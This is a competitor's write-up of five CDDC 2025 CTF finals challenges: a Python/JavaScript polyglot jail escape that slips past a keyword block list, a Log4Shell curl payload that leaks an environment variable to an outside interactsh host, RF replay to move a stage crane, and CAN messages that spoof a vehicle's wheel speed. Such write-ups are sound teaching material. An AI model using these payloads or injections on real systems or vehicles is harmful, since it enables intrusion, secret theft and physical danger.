

On June 11th & 12th, I participated in CDDC 2025 Finals under the University
category. It was a really fun experience and my first time solving physical
challenges, here are the challenges I solved.

## Pyjsjail

| Category | Misc |
| -------- | ---- |
| Points   | 100  |

```
Welcome to the Polyglot jail.

Can you find a way to break out of the jail?
```

We are given a python flask app with the following endpoint:

```python
@app.route("/challenge", methods=["POST"])
def challenge():
    payload = request.json.get("payload", "")

    results = {}
    interpreters = {
        "python": ["python3", "-c", payload],
        "javascript": ["node", "-e", payload]
    }

    for lang, cmd in interpreters.items():
        try:
            BLOCKED_KEYWORDS = [
                    "require",
                    "process",
                    "child_process",
                    "Function",
                    "constructor",
                    "globalThis",
                    "module",
                    "exports",
                    "Buffer",
                    "__proto__",
                    "Reflect",
                    "Object",
                    "`",
                    "flat",
                    "map",
                    "filter",
                    "constructor",
                    "toString",
                    "call",
                    "apply",
                    "bind",
                    "new",
                    #
                    "import",
                    "open",
                    "os",
                    "system",
                    "subprocess",
                    "input",
                    "flag",
                    "console",
                    "require",
                    "__import__",
                    "__builtins__"
            ]

            BLOCK_PATTERN = re.compile(r"|".join([fr"\b{kw}\b" for kw in BLOCKED_KEYWORDS]), re.IGNORECASE)
            if BLOCK_PATTERN.search(payload):
                return jsonify({"error": "Blocked keyword detected."}), 403

            result = subprocess.run(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE, timeout=3)

            output = result.stdout.decode().strip()
            if FLAG in output:
                results[lang] = f"SUCCESS"
            else:
                results[lang] = f"FAILURE"
                return  jsonify(results)
        except Exception as e:
            results[lang] = f"Error!"
            return  jsonify(results)
    else :
        results['flag'] = FLAG

    return jsonify(results)
```

This endpoint takes in some code, and runs it in both Python and JavaScript, if
the output of both runs contain the flag, the endpoint will return the flag to
us. There are also some filters that prevent certain keywords from being used.

This challenge is quite simple, we have to construct a Python + JS polyglot that
reads the flag file and outputs it. The moment I saw this challenge, I was
reminded of this video I saw 2 months ago:

<p align="center">
<iframe width="560" height="315" src="https://www.youtube.com/embed/dbf9e7okjm8?si=hS0Xpo6UpQBrYC0P" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>
</p>

This video explains how to construct such a polyglot, for example, the following
snippet prints `Hello Python` when run in Python, but prints `Hello JS` when run
in JavaScript.

```python
1 // (lambda: exec("print('Hello Python')", globals()) or 1)()
lambda: eval("console.log('Hello JS')")
```

It works by having the chunk that runs in Python do nothing when run in
JavaScript, and vice versa.

In Python, the first line has an integer division between 1 and an immediately
invoked lambda. The lambda function executes a string that prints
`Hello Python`, then returns `1`, making it run in Python without any errors.
The second line is a lambda, which runs an `eval` on some JavaScript code,
However this `eval` is not ran until the lambda is invoked, hence there are no
errors.

In JavaScript, the integer division operator in the first line is treated as a
comment, so the lambda function is ignored. In the second line, `lambda:` is
treated as a
[labeled statement](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Statements/label),
and hence effectively ignored, letting the eval statement run.

Modifying this snippet, we can use string concatenation to bypass the filter and
print the flag in both languages

```python
1 // (lambda: exec("print(ope" + "n('fla'+'g.txt').read())") or 1)()
lambda: eval("const fs = requ" + "ire('fs'); fs.readFile('fla' + 'g.txt', 'utf8', (err, data) => {con" + "sole.log(data)})")
```

`CDDC2025{P0lyg10t_J4AILBR3AK_FUN!!}`

## Log4shell

| Category | Web |
| -------- | --- |
| Points   | 100 |

```
This application logs user input. But maybe a bit too trustingly.
Can you find a way to make the logger do more than just record text?
```

 We are given the following web
page with nothing else. From the challenge name, we presumably have to exploit
the [Log4Shell](https://en.wikipedia.org/wiki/Log4Shell) vulnerability
from 2021. I doubted that we had to get shell access, since the webpage says
that flag is stored in env.

I tried a few random payloads until I eventually found one that worked by
attaching it in the `X-Api-Version` header when sending a request to the server.
I used [interactsh](https://app.interactsh.com/) to generate the url for the
payload.

`curl chal.h4c.cddc2025.xyz:57843 -H 'X-Api-Version: ${jndi:dns://${ENV:FLAG}.vhcfpcradxacygfxgsah4kxp1wpxi7d7h.oast.fun}'`

With this payload, the `FLAG` environment variable will be prepended as a
subdomain. After running the curl command, the flag was in interactsh client.


`CDDC2025{4p4ch3_l0645h3ll_15_r34lly_cr171c4l!!}`

## Tower Crane

| Category | RF  |
| -------- | --- |
| Points   | 75  |

```
We have enough data to control the Tower Crane. But, we don't have much time. Please control the Tower Crane in 3 minutes.

Your mission is to move the crane to the designated drop area. Get to the stage to identify the location of the drop area.

This challenge requires GNU Radio Companion (GRC). In GRC, reverse the flow of the blocks and then replay the given signal file just enough times to get to the designated drop area.

Please head to the Queue Management Area to the right side of the stage, to register your team and queue up for the challenge.
```

In this challenge, we are given 3 files `capture.grc`, `capture.py`, and `left`.
This challenge makes use of GNU Radio Companion (GRC), GRC is a GUI tool for
using GNU Radio. It provides drag and drop blocks for signal processing
purposes.

Opening `capture.grc` in GRC, we see the following flow graph:
 We see an osmosdr source block that reads
the signal and is connected to a File Sink block that writes the signal to the
file called left. It is also connected to a QT GUI block that visualises the
given signal.

As per the challenge description, we just have to replay the signal file by
reversing this flow graph, such that we have a File Source block connected to an
osmosdr sink block. However, my GRC didn't come with osmosdr, and building
[gr-osmosdr](https://github.com/osmocom/gr-osmosdr) ran into some errors. In the
end, I figured out that you can just use Soapy LimeSDR instead.
 Using values from the `capture.grc`
file, I set the sample rate to 2e6, center freq to 441875e3, and gain to 20.
Then when I connected to the radio device on stage, I ran `SoapySDRUtil --find`
to see that I was connected to a hackrf device

```
######################################################
## Soapy SDR -- the SDR abstraction library        ##
######################################################
Found device 0
  driver=hackrf
```

I set the driver on the sink block to hackrf, and executed the flowgraph. The
crane on stage started moving, and after it knocked down a small figurine on
stage, the staff gave me the flag.

`CDDC2025{r4d10_fr3qu3ncy_15_51mpl3_bu7_4w350m3}`

## ECU1

| Category | OT  |
| -------- | --- |
| Points   | 125 |

```
The doors of this vehicle should not lock when the vehicle is above a certain speed.

In this task, you need to find two CAN IDs that turns off the auto-locking feature of the doors.

Here are the descriptions of the two datasets that you can obtain:
Dataset with auto-locking enabled: can_capture_log_normal.txt
Dataset with auto-locking disabled: can_capture_log_off.txt

Can you identify the two CAN IDs that turn off the auto-locking feature of the doors from the provided datasets?

Reserve a slot to explain the identified CAN IDs and the identification method to the staff.
Flag will be provided if the identified information is correct.

Please head to the Queue Management Area to the right side of the stage, to register your team and queue up for the challenge.
```

CAN stands for Controller Area Network. It is a communication protocol used in
vehicles to allow different components of the vehicle to communicate and control
each other. In this challenge, we are given two log files that contain CAN
messages when the vehicle is operating normally, and when the vehicle's
auto-lock feature was turned off. We are tasked with finding two CAN messages
that were used to turn off the auto-lock feature.

Looking at the log files, we see the following data

```shell
$ head can_capture_log_normal.txt
Timestamp  CAN_ID  Data
==================================================
828864.508048 1A0  54 70 F0 FF 00 00 77 00
828864.518074 17A  00 00 00 00 C0 00 00 00
828864.519269 17B  40 08 88 AA 01 00 00 00
828864.529594 1CB  00 00 00 00 00 00 00 00
828864.531215 457  40 02 00 00 00 00 FF FF
828864.538042 15E  00 01 00 00 00 00 00 00
828864.548026 157  0C FF 00 00 00 78 00 00
828864.549647 1E8  00 00 00 00 00 00 00 00
```

This is basically just a data processing challenge, the first thing I did was to
find the ids that differed between the two files

```python
normal = open("can_capture_log_normal.txt").read().split("\n")[2:-1]
normal = set([i[14:17] for i in normal])
off = open("can_capture_log_off.txt").read().split("\n")[2:-1]
off = set([i[14:17] for i in off])

print(off - normal)
```

Running this gives us a single id, `066`, but there is still one more id to
find. The next thing we can do is find ids that are used in both files but with
differing payloads.

```python
from collections import defaultdict

normal = open("can_capture_log_normal.txt").read().split("\n")[2:-1]
normal_map = defaultdict(set)
for i in normal:
    e = i.split()
    normal_map[e[1]].add("".join(e[2:]))


off = open("can_capture_log_off.txt").read().split("\n")[2:-1]
off_map = defaultdict(set)
for i in off:
    e = i.split()
    off_map[e[1]].add("".join(e[2:]))


for i in off_map:
    if off_map[i] != normal_map[i]:
        print(i)
```

Running this gives us the two ids, `066` and `17B`. I went up on stage and gave
these two ids to get the flag.

`CDDC2025{y0ur_Future_HAS_n0t_b3EN_wrItt3n_y37}`

## ECU2

| Category | OT  |
| -------- | --- |
| Points   | 125 |

```
Travel to the future by reaching 88 mph (142 km/h)!
This challenge must be solved on a stage. Reach 88 mph (142 km/h) by injecting CAN messages on the stage. Then you will receive a flag.

The testbed vehicle is a Hyundai Casper (AX1). Learn how to control the speed of this vehicle in OpenDBC (https://github.com/commaai/opendbc). You can find the speed-related CAN message by checking WHL_SPD11.

Testbed factor value : 0.03267857

Note: Please give the staff the python code that can inject CAN messages into the testbed to get the flag. Once you have the python code ready, reserve a slot and solve the problem.

You can download the example code for inserting CAN messages (10 km).


Please head to the Queue Management Area to the right side of the stage, to register your team and queue up for the challenge.
```

This challenge is about injecting CAN messages into a testbed that simulates a
vehicle to get it to reach 142 km/h. I downloaded the example script to take a
look at how it works.

```python
import can
import time

# CAN example settings
can_id = 0x386
data = [0x32, 0x01, 0x32, 0x01, 0x32, 0x01, 0x32, 0x01]

# Initialize CAN bus (PCAN-USB)
bus = can.interface.Bus(channel="PCAN_USBBUS1", bustype="pcan", bitrate=500000)

# Loop to send CAN messages every 10ms
while True:
    msg = can.Message(arbitration_id=can_id, data=data, is_extended_id=False)
    try:
        bus.send(msg)
        print(f"Sent: ID=0x{can_id:X}, Data={data}")
    except can.CanError:
        print("Send failed")
    time.sleep(0.01)  # 10 ms
```

This script already does most of the work for us, the only thing we need to
change is the payload, currently it only makes the vehicle go at 10km/h. As per
the challenge description, we can go to
[opendbc](https://github.com/commaai/opendbc/blob/master/opendbc/dbc/hyundai_kia_generic.dbc)
to check how the payload controls the car under `WHL_SPD11`

```
BO_ 902 WHL_SPD11: 8 ABS
 SG_ WHL_SPD_FL : 0|14@1+ (0.03125,0.0) [0.0|511.96875] "km/h"
 SG_ WHL_SPD_FR : 16|14@1+ (0.03125,0.0) [0.0|511.96875] "km/h"
 SG_ WHL_SPD_RL : 32|14@1+ (0.03125,0.0) [0.0|511.96875] "km/h"
 SG_ WHL_SPD_RR : 48|14@1+ (0.03125,0.0) [0.0|511.96875] "km/h"
```

The dbc file format is described in this image:


From this, we can tell that each wheel is controlled by an unsigned 14 bit
integer packed into 2 bytes, using little endian ordering. In the example
payload, each wheel is given `0x132` which equals to 306. Multiplying this by
the testbed factor given in the description, we get

$$ 306 \times 0.03267857 \approx 10 $$

Hence we just need to divide 142 by the test bed factor, convert it into bytes
and use it as our new payload.

```python
data = [0xFA, 0x10, 0xFA, 0x10, 0xFA, 0x10, 0xFA, 0x10]
```

Changing the data to this, I went on stage and passed my code to the staff, they
ran it on the test bed and it immediately showed the vehicle travelling at
88mph, then the staff gave me the flag.

`CDDC2025{lOv3_iS_aN_oOOpEN_d0Or}`
